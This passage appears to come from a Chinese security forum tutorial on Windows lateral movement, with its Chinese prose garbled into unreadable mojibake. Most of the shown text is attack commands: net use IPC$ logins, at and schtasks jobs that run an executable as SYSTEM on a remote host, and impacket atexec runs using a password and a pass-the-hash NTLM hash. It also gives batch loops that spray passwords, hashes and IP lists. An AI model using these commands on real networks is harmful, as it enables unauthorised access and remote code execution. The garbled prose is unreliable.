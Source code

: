 ## [](https://bbs.pediy.com/thread-268289.htm)2.1Windows server 2008
ä½¿ç¨èªå¸¦çatå½ä»¤

ä½¿ç¨ææå¯ç ç»å½å°åæ§ï¼éè¦135ç«¯å£å¼å¯ï¼  
Net use \192.168.202.148\ipc$ password /user:test\administrator  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_HWZ7YBG9YGXJXBR.png)  
æåé¨å¤å¶å°åæ§cçï¼atæ°å»ºå®æ¶ä½ä¸ï¼  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_GRBP4GZW2BCDEZ6.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_AS3YHTA89EWZWGV.png)  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_3HA2WMG2VDFWY82.png)



Windows server 2012åä»¥ä¸ä½¿ç¨schtaskså½ä»¤  
Schtasks /create /s 192.168.202.148 /ru âSYSTEMâ /tn executefile /sc DAILY
/tr c:/h4.exe /F  
Schtasks /run /s 192.168.202.148 /tn executefile /i  
Schtasks /delete /s 192.168.202.148 /tn executefile /f

##
[](https://bbs.pediy.com/thread-268289.htm#2.2%E4%BD%BF%E7%94%A8%E7%AC%AC%E4%B8%89%E6%96%B9%E5%B7%A5%E5%85%B7%E5%8C%85impacket%E4%B8%ADatexec.exe)2.2ä½¿ç¨ç¬¬ä¸æ¹å·¥å
·å impacketä¸­atexec.exe

Atexec.exe test/administrator:zxcvbnm123@192.168.202.148 âwhoamiâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_3P6X4982CMWTA4X.png)  
Atexec.exe -hashes :fac5d668099409cb6fa223a32ea493b6
test/administrator@192.168.202.148 âwhoamiâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_PWNYDUUDXUMDE29.png)

##
[](https://bbs.pediy.com/thread-268289.htm#2.3%E7%BB%93%E5%90%88%E6%89%B9%E5%A4%84%E7%90%86%E5%88%A9%E7%94%A8%EF%BC%9A)2.3ç»åæ¹å¤çå©ç¨ï¼

å·²ç¥å¯ç åç¨æ·æ¹éè¿æ¥ip:  
FOR /F %%i in (ips.txt) do net use \%%i\ipc$ âpasswordâ
/user:test\administrator  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_YU7YHH9HA3ZR6C2.png)  
å·²ç¥ç¨æ·åipæ¹éè¿æ¥å¯ç ï¼  
FOR /F %%i in (pass.txt) do net use \192.168.202.148\ipc$ â%%iâ
/user:test\administrator  
å·²ç¥ç¨æ·åipæ¹éè¿æ¥hashï¼  
FOR /F %%i in (hash.txt) do atexec.exe -hashes :â%%iâ
test/administrator@192.168.202.148 âwhoamiâ  
![](./\[åå\]åç½æ¨ªç§»æå·§åé¶åºå®è·µ-WEBå®å¨-çéªè®ºå-å®å¨ç¤¾åº_å®å¨æè_bbs.pediy.com_files/718877_XH5YQNN427T45EU.png)

#
[](https://bbs.pediy.com/thread-268289.htm#%E4%B8%89%E3%80%81%E5%88%A9%E7%94%A8hash%E8%BF%9B%E8%A1%8C%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8)ä¸ãå©ç¨hashè¿è¡æ¨ªåç§»å¨
